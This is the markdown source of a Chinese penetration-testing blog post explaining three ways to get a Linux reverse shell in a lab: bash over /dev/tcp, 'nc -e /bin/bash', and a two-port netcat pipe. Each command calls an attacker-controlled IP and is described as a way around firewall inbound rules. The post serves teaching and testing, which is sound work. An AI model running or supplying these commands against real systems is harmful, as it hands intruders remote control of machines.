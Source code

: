 ```yaml
---
title: Linux反弹shell的三种方法
date: 2018-11-06 11:55:30
tags: ['安全','反弹shell','netcat', '渗透测试']
categories: 安全
---
```


<div style="text-align: center;">
{% note success %} 
### 0x01 前言
{% endnote %}
</div>

在渗透测试中，当我们可以得到一个可以执行远程命令的漏洞时，我们通常会去获取一个shell，但是通常服务器防火墙亦或者云上都会对端口等进行严格控制，导致不能通过监听端口进行shell连接，这种情况下该怎么获取shell呢？

而通常情况下，不论是防火墙还是云盾等防护措施，不会对服务器对外连接进行限制（特殊情况除外），这时候就可以通过反弹shell来获取连接，即通过服务器反向连接一个外部机器来获取一个shell。

反弹shell通常是外网渗透的最后一步，也是内网渗透的第一步。反弹shell顾名思义，有两个关键词—反弹和shell。

反弹：利用命令执行/代码执行/Webshell/redis未授权访问写入crontab等漏洞，使得目标服务器发出主动连接请求，从而绕过防火墙的入站访问控制规则则。
Shell：是服务器shell进程stdin/stdout/stderr重定向到攻击端。

<div style="text-align: center;">
{% note success %} 
### 0x02 获取shell
{% endnote %}
</div>

通过上面的解释，可以知道，反弹shell需要一个外部可访问的服务器，即需要一个有公网IP访问的服务器，作为黑客的攻击服务器。

我这里用自己的VPS机器作为一个攻击机器（IP: 130.211.244.96），操作系统是Centos7。用一个局域网虚拟机作为一个有漏洞的受害机器，即被攻击机器（IP: 192.168.6.220)，操作系统也是Centos7。

#### 通过bash反弹shell

第一种方法是直接利用bash进行反向shell的连接。首先在黑客的攻击机器130.211.244.96开启监听端口，监听来自外部的反向连接。打开终端，执行命令`nc -lvvp 7777`,这里用nc监听130.211.244.96的7777端口（更多的nc使用方法请自行了解）。之后在被攻击机器上即受害机器上192.168.6.220执行反向连接的bash命令`bash -i >$ /dev/tcp/130.211.244.96/7777 0>&1`。

`bash -i`的意思是打开一个交互式shell，/dev/tcp/建立一个tcp的socket连接，>&将标准错误输出重定向到标准输出中，0>&1将标准输入重定向到标准输出中。

下面来看一下具体的效果，先在攻击机器上监听端口：

{% asset_img 1攻击机监听端口.jpg %}

在受害机器上反弹shell：

{% asset_img 1受害机反弹shell.jpg%}

之后可以看到攻击机器上返回了一个受害机的bash，可以执行命令，到此就利用bash获得了一个反向shell。

{% asset_img 1攻击机获得shell.jpg %}

#### 利用netcat反弹shell

如果受害机上安装了netcat，也可以利用netcat来进行反弹shell。

同样，先在攻击机器上130.211.244.96开启监听端口`nc -lvvp 7777`，等待受害机器连接。

{% asset_img 1攻击机监听端口.jpg %}

在受害机器上执行命令`nc -e /bin/bash 130.211.244.96 7777`,反弹一个bash的shell给攻击机器。然后就可以在攻击机器上执行命令了。

{% asset_img 2受害机反弹shell.jpg %}

{% asset_img 2攻击机获得shell.jpg %}


#### 利用管道反弹shell

netcat的-e 参数后面跟一个可执行程序的名称，当连接被建立时，会运行这个程序。而在有的发行版linux中netcat是不带这个参数的，这时候可以利用管道进行反弹shell。

首先在攻击机器上130.211.244.96利用nc监听两个端口7777、7778。

{% asset_img 3攻击机监听端口.jpg %}

然后在受害机器上执行命令`nc 130.211.244.96 7777 | /bin/bash | nc 130.211.244.96 7778`，该命令意思是连接攻击机7777端口，将传递过来的命令交给/bin/bash 执行然后将结果返回到7778端口。

{% asset_img 3受害机反弹shell.jpg %}

这样在攻击机上就获得了一个shell，通过在7777端口执行命令，在7778端口进行命令的回显，如下图示。

{% asset_img 3攻击机获得shell.jpg %}


<br>

当然还有其他反弹shell的方法，比如利用Python、Perl进行socket的反弹shell，重在思路，具体的方法肯定网上会有大牛给出的。


<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- 信息流广告 -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4127326375481893"
     data-ad-slot="9105526840"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>